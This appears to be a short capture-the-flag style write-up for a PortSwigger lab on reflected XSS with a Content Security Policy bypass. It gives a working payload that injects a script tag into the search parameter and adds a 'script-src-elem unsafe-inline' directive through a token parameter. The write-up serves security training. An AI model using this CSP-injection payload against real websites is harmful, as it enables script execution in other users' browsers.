


>> Platform -> PortSwigger
>>> ### Target -> Lab: Reflected XSS protected by CSP, with CSP bypass

---
**Where is vuln**: in search parameter
**Goal0**: Perform an XSS attack that bypasses the CSP and calls the `alert` function. Note: intended solution only works in Chrome.


---


### Steps:
1. open the lab..
2. Exploiting this payload bypass csp  inject in search= url endpoint
```html
<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline'
```
3. hit our payload 
4. solve the lab...
